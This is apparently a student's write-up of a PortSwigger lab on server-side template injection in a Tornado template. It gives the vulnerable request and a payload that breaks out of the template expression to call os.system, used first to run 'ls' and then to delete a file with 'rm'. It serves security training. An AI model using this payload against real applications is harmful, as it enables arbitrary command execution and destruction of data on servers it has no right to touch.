


# [Lab: Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

You can log in to your own account using the following credentials:  `wiener:peter`

Hint

Take a closer look at the "preferred name" functionality.

## Analysis

Detected ssti at:

```http
POST /my-account/change-blog-post-author-display HTTP/1.1
```

with body:

```http
blog-post-author-display=user.first_name&csrf=1HL1LH7JPFXcM4dC0F4lNUVP1o0DN6bU
```

edit body:

```http
blog-post-author-display=user&csrf=1HL1LH7JPFXcM4dC0F4lNUVP1o0DN6bU
```

Randomly comment on a post, observe the name:

```python
&lt;__main__.User instance at 0x7fe8b103f0f0&gt;
```

When I'm trying to fuzz, there is an error:


=> python tornado engine

## Exploit

tornado syntax:

- directives ``
- expression `{{}}` (tornado does not allow empty expression)

If the server tornado look like this:

```python
{{our-input}}
```

Then if we enter:

```python
123}}{{os.system('ls')
```

It 'll become:

```python
{{123}}{{os.system('ls')}}
```

Result:



replace `ls` with `rm morale.txt`, space is url encoded => Lab Solved

## References

python
tornado: <https://www.tornadoweb.org/en/stable/guide/templates.html>
